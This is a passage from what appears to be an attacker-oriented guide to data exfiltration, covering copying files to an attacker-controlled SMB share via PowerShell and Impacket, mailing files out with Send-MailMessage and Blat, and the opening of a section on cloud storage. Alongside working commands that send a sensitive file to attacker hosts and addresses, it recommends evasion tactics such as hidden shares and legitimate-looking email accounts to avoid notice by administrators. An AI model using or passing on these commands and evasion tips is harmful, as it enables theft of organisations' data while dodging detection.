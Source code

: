     Command Examples:

        Using PowerShell to Copy Files over SMB:

        powershell

New-PSDrive -Name "X" -PSProvider FileSystem -Root "\\attacker-server\share"
Copy-Item -Path C:\SensitiveData.txt -Destination X:\
Remove-PSDrive -Name "X"

Using Impacket:

bash

        smbclient.py attacker/share -username=user -password=pass -c 'put C:\SensitiveData.txt'

    Recommendations:
        Use encrypted SMB connections to evade detection.
        Establish hidden shares (e.g., \\server\C$\) to avoid being noticed by system administrators.

D. Email Exfiltration

Description: Attackers can use email clients or command-line tools to send sensitive files as email attachments. This method leverages existing email infrastructure, making it difficult to detect.

    Tools:
        PowerShell’s Send-MailMessage cmdlet.
        Blat: A command-line email tool.
        Custom scripts using SMTP libraries.

    Command Examples:

        Using PowerShell:

        powershell

$smtpServer = "smtp.mail.com"
$smtpFrom = "attacker@mail.com"
$smtpTo = "receiver@mail.com"
$messageSubject = "Sensitive Data"
$messageBody = "Data Attached"
$attachment = "C:\SensitiveData.txt"
Send-MailMessage -From $smtpFrom -To $smtpTo -Subject $messageSubject -Body $messageBody -SmtpServer $smtpServer -Attachments $attachment

Using Blat:

bash

        blat -to receiver@mail.com -subject "Data" -body "See attachment" -attach C:\SensitiveData.txt -server smtp.mail.com

    Recommendations:
        Use encrypted email services to ensure data confidentiality.
        Use legitimate email addresses to avoid raising suspicion.

E. Cloud Storage Services

Description: Attackers can use cloud storage services to exfiltrate data. These services provide reliable storage and are often whitelisted by corporate firewalls.
